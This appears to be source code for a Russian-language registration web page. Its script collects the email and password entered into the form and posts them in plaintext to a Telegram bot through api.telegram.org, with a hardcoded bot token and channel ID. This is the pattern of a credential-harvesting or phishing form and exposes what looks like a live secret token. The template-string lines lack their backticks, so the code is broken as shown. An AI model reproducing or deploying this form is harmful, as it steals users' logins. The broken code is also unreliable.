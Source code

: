 <!DOCTYPE html>
<html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
        body { font-family: Arial, sans-serif; }
        form { max-width: 300px; margin: auto; }
        input { width: 100%; padding: 10px; margin: 5px 0; }
        button { padding: 10px; width: 100%; }
    </style>
</head>
<body>

<h2>Регистрация</h2>
<form id="registrationForm">
    <input type="email" id="email" placeholder="Введите ваш email" required>
    <input type="password" id="password" placeholder="Введите пароль" required>
    <button type="submit">Зарегистрироваться</button>
</form>

<script>

document.getElementById('registrationForm').addEventListener('submit', function(event) {
    event.preventDefault();

    const email = document.getElementById('email').value;
    const password = document.getElementById('password').value;

    // Исправлено: используем обратные кавычки для шаблонной строки
    const message = Новая регистрация:\nEmail: ${email}\nПароль: ${password};

    // Замените <Ваш_Токен> и <ID_Канала> на ваши данные
    const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g'; // Уберите угловые скобки
    const chatId = '-1002372284940'; // Убедитесь, что это правильный ID канала
    // Исправлено: используем обратные кавычки для шаблонной строки
    const url = https://api.telegram.org/bot${token}/sendMessage; // Добавьте URL для API

    fetch(url, {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            chat_id: chatId,
            text: message,
            parse_mode: 'HTML'
        })
    })
    .then(response => response.json())
    .then(data => {
        if (data.ok) {
            alert('Регистрация успешна!');
        } else {
            alert('Ошибка при отправке данных.');
        }
    })
    .catch(error => {
        console.error('Ошибка:', error);
        alert('Ошибка при отправке данных.');
    });
});

</script>

</body>
</html>
